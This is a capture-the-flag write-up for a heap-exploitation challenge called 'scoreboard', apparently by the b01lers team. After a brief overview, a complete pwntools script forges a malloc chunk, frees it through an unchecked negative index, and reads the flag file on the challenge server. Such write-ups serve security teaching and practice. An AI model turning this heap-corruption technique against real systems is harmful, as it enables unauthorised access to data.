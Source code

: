 # scoreboard

## Question

> we were just searching on shodan and we found the scoreboard for a football stadium. can you open the flag file?  
> GLIBC 2.27-3ubuntu1  
> compiled with gcc -no-pie -g pwn.c -o pwn  
> connect using nc pwn.osucyber.club 13381

## Solution (by b01lers)

The overview of this is: fake a malloc struct, free it using the unchecked index, have it's next return a fake chunk that points to the file address. Then read from that file with reset and show.

Super gross solve script

```
from pwn import *

#p = process('./pwn')
#gdb.attach(p, """
#c
#""")
p  = remote('pwn.osucyber.club', 13381)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Leak some player address
# Overwrite all team members with the address
# Forge a chunk and free it
# Set fd pointer of forged chunk to
# Allocate with pointer to datafile

default_datafile_addr = 0x602280
team_name_addr = 0x602380
team2_name_addr = 0x6020e0

p.sendline('team') # Just set team stuffs
p.sendline('0')
p.sendline('A'*8 + 'B'*9+'\x00'*8)
p.sendline('B')

for i in range(11):
    p.sendline('substitution')
    p.sendline('0')
    p.sendline(str(i))
    p.sendline('name_{}'.format(i))
    p.sendline(str(i))

for i in range(11):
    p.sendline('substitution')
    p.sendline('1')
    p.sendline(str(i))
    p.sendline('team2_name_{}'.format(i))
    p.sendline(str(i))


p.sendline('substitution') # This address should now be in name+4
p.sendline('0')
p.sendline('-4')
p.sendline('AAAA')
p.sendline('14')

p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)
p.recv(timeout=1)

p.sendline('show')
p.recvuntil('AAAAAAAABBBBBBBB')
leak = p.recvuntil(':')[:-1]
leak = u64(leak.ljust(8, b'\x00'))
print(hex(leak))

p.sendline('team') # Just set team stuffs
p.sendline('1')
forged_chunk_addr = team2_name_addr + 8 + 8
forged_chunk = b''
forged_chunk += p64(0x50) # size
forged_chunk += p64(default_datafile_addr) #next
forged_chunk += p64(default_datafile_addr) #next
payload = forged_chunk
#while len(payload)/8 < 11:
#    payload += b'\x00' * 8
p.sendline(b'\x00' * 8 + forged_chunk)
p.sendline('A'*4)
p.sendline('B')


p.sendline('team')
p.sendline('longteamname')
payload = b''
payload += b'A' * 4
payload += b'\x00' * 4
payload += p64(forged_chunk_addr) # write to team[0].players[-1]
payload += p64(leak) * 9 # leak
p.sendline(payload)

# Get thing freed
p.sendline('substitution')
p.sendline('0')
p.sendline('-1')
p.sendline('AAAA')
p.sendline('14')

p.sendline('team') # Just set team stuffs
p.sendline('1')
p.sendline(b'AAAAAAAA' + p64(0x50) + p64(default_datafile_addr))
p.sendline(b'BBBBBBBB')

p.sendline('substitution')
p.sendline('0')
p.sendline('20')
p.sendline('flag')
p.sendline('13')

p.sendline('substitution')
p.sendline('0')
p.sendline('21')
p.sendline('flag')
p.sendline('13')

p.sendline('reset')

p.sendline('show')

p.interactive()
```
